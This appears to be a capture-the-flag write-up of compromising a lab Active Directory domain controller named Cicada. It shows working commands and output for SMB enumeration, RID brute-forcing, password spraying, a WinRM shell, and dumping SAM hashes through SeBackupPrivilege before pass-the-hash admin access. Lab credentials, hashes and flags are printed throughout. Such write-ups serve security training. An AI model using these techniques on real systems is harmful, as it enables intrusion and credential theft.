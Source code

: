 ```yaml
---
sticker: emoji//1fab0
---
```

# ENUMERATION
---

## OPEN PORTS
---

| PORT   | SERVICE       |
| :----- | :------------ |
| 53/tcp | domain        |
| 88/tcp | kerberos-sec  |
| 135/tcp| msrpc         |
| 139/tcp| netbios-ssn   |
| 389/tcp| ldap          |
| 445/tcp| microsoft-ds? |
| 464/tcp| kpasswd5?     |
| 593/tcp| ncacn_http    |
| 636/tcp| ssl/ldap      |
| 3268/tcp| ldap         |
| 3269/tcp| ssl/ldap     |
| 5985/tcp| http         |
Let's start reconnaissance.

# RECONNAISSANCE
---

We are facing a AD machine, let's start with some basic SMB enumeration:


![](images/Pasted%20image%2020250116135424.png)

We can use netexec to perform a simple check on SMB and WINRM:

![](images/Pasted%20image%2020250116135538.png)


We can attempt to log into SMB without the authentication process using `smbclient -NL IP`:

![](images/Pasted%20image%2020250116135823.png)


We found interesting shares, let's check out `HR`:

![](images/Pasted%20image%2020250116135909.png)


We find a `Notice from HR.txt` file, let's download it and check it:

![](images/Pasted%20image%2020250116140031.png)

We got a default password, my guess would be we need to perform a basic brute force to enumerate users, this would be in the following way:

```ad-note
`netexec smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute`
```

We get the following output:

```
netexec smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\anonymous: (Guest)
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)     
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)               
SMB         10.10.11.35     445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)                
SMB         10.10.11.35     445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)                
SMB         10.10.11.35     445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)                       
SMB         10.10.11.35     445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)                         
SMB         10.10.11.35     445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)     
SMB         10.10.11.35     445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)      
SMB         10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```



# EXPLOITATION
---

Let's store all the usernames in a file and perform password spraying:


`nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`


![](images/Pasted%20image%2020250116140940.png)



We found the user, these are the credentials:

```ad-note

`michael.wrightson`:`Cicada$M6Corpb*@Lp#nZp!8`

```


We can search for more privileged users:

![](images/Pasted%20image%2020250116141256.png)

We found an account with the following credentials:

```ad-note
`david.orelious`:`aRt$Lp#7t*VQ!3`
```


Let's check the shares this account has access to:


![](images/Pasted%20image%2020250116141414.png)

We can now read the `DEV` share, let's take a look at it:


![](images/Pasted%20image%2020250116141607.png)

Found a `Backup_script.ps1` file, let's view the contents:



![](images/Pasted%20image%2020250116141718.png)

Found more credentials: 

```ad-note

`emily.oscars`:`Q!3@Lp#M6b*7t*Vt`
```


Let's check if we are able to get a shell with those credentials using `evil-winrm`:

```ad-success
`evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'`


![](images/Pasted%20image%2020250116142124.png)

```


We can read `user.txt` and begin with privilege escalation:

```ad-note
![](images/Pasted%20image%2020250116142223.png)

User: `74b2598907182ac31cca52c79b20eb0a`
```

# PRIVILEGE ESCALATION
---

In order to begin with privilege escalation, we can start enumerating our privileges:


`whoami /priv`


![](images/Pasted%20image%2020250116142402.png)

We can make use of `SeBackupPrivilege` in order to escalate our privileges, let's use the following PoC:

![](images/Pasted%20image%2020250116142600.png)

![](images/Pasted%20image%2020250116142623.png)


But, we can simplify the PoC in the following way:

```ad-summary
1. `reg save hklm\sam sam`
2. `reg save hklm\system system`
3. `download sam`
4. `download system`
5. `impacket-secretsdump LOCAL -sam sam -system sytem`


#### Output
----

![](images/Pasted%20image%2020250116144219.png)

And like that, we can get our admin hash.
```


```
impacket-secretsdump LOCAL -sam sam -system system
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

Let's log in using Pass the hash:

![](images/Pasted%20image%2020250116144347.png)

And our root flag is the following: 

```ad-note

Root: `568e019774b66b875a024dfa590b84dc`
```

